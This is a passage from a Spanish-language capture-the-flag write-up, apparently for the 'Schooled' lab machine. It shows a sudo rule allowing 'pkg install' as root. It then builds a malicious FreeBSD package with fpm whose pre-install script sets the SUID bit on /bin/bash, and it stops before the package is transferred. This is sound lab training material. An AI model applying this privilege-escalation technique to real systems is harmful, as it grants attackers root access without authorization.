 ```
jamie@Schooled:~ $ 
```

Una vez aqui ya podremos ver la flag `user.txt` en la ruta `/home/jamie/user.txt`:

```bash
jamie@Schooled:~ $ cat /home/jamie/user.txt 
e92XXXXXXXXXXXXXXXXXXXXXXXXXXXec0
```

# Root.txt

Al hacer `sudo -l` veo que disponemos de un **permiso**:

```bash
jamie@Schooled:~ $ sudo -l
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```

Podemos ejecutar `pkg update` y `pkg install *` como usuario **root**.

Si buscamos en [GTFObins](https://gtfobins.github.io/){:target="\_blank"}{:rel="noopener nofollow"} el binario `pkg` veremos que se puede **explotar** cuando nos dan permisos de ejecutarlo como root:

![image](https://user-images.githubusercontent.com/67548295/133911145-079aa1f1-a0b7-4be5-a2fe-d5b84f5f3eee.png)

Aqui hay un pequeño problema, y es que la máquina no tiene `fpm` instalado, es por esto que tendremos que hacer estos pasos **desde nuestra máquina de atacante**.

Bien, hagamos esto:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $TF=$(mktemp -d)
echo 'chmod u+s /bin/bash' > $TF/x.sh
```
He reemplazado el comando `ìd` que venía por defecto, por el comando `chmod u+s /bin/bash` que proporciona permisos [SUID](https://www.luisguillen.com/posts/2017/12/como-funcionan-permisos-suid/){:target="\_blank"}{:rel="noopener nofollow"} a `/bin/bash`.

Ahora hay que instalar `fpm` en nuestra máquina, se hace ejecutando estos 2 comandos:

> ~$ sudo apt-get install ruby ruby-dev rubygems gcc make rpm

> ~$ sudo gem install fpm

Una vez ejecutados, tendremos `fpm` instalado y ya podremos hacer el último paso:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF

Created package {:path=>"x-1.0.txz"}
```
Ahora tendremos que **transferir** el paquete a la **máquina víctima**:
